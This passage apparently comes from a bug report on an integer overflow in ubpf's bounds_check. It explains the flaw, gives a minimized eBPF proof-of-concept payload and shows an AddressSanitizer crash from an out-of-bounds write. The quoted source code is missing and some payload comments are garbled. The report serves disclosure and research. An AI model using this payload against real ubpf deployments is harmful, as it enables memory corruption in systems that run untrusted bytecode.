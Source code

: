 ```c
}
```

This function has two integer overflows:

-   The first block of code compares if the address and size are within the limits of the context. If the sum of the address and size exceeds the maximum allowed pointer value, it can cause an overflow.
    
-   The second block of code compares if the address and size are within the limits of the stack. If the sum of the address and size exceeds the maximum allowed pointer value, it can also cause an overflow.
    

In the context of the function, the address (addr) is calculated by adding the value of the source register (reg[inst.src]) to the offset (inst.offset). The size (size) represents the number of bytes to read and is defined by the memory access operations. It is possible to read or write a maximum of 8 bytes.

To reproduce the bug, we can control the value of the source register, but the size is determined by the memory access operations. To trigger the bug, we need to ensure that the sum of the source register + instruction offset is between `0xFFFF_FFFF_FFFF_FFFF` and `0xFFFF_FFFF_FFFF_FFF8` and execute a read or write operation of 8 bytes.

This value will pass the security checks of bounds_check, but the memory accesses will be performed on the value of the source register + offset, which is `0xFFFF_FFFF_FFFF_FFFF` and not part of the program's allocated memory.

Below is a minimized payload that can reproduce the bug 100%:

```rust
//r[6] = 0
EbpfBytecode::from(EbpfInstr::new(0xb7, 0x0, 0x6, 0x0, 0x0 as u32 as i32)),  
//[r6] = 0xFFFFFFFFFFF
EbpfBytecode::from(EbpfInstr::new(0x17, 0x0, 0x6, 0x0, 0x1 as u32 as i32)),  
//*(*(uint64_t *) (r[6] + off) = imm => 0xFFFFFFF + 0 = 0 <= 
EbpfBytecode::from(EbpfInstr::new(0x7A, 0x0, 0x6, 0x0, 0x0 as u32 as i32)),  
```

Execution:
```rust
000=> [0xB7, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]
001=> [0x17, 0x06, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00]
002=> [0x7A, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]
[+]VM addr: 0x608000000020
[+]FN Loaded
AddressSanitizer:DEADLYSIGNAL
=================================================================
==6773==ERROR: AddressSanitizer: SEGV on unknown address 0xffffffffffffffff (pc 0x7f636e1a7d65 bp 0x000000001f9c sp 0x7fffc1b60c50 T0)
==6773==The signal is caused by a WRITE memory access.
    #0 0x7f636e1a7d64 in ubpf_exec /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:533
    #1 0x558fa1e8b44e in j_fuzzer::run_prgm::h35d4b4310f796c6f src/main.rs:337
	...
    #18 0x558fa1e84b9d in _start (/mnt/c/J/re/fuzz/j-fuzzer/target/debug/j-fuzzer+0x8b9d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:533 in ubpf_exec
==6773==ABORTING
```
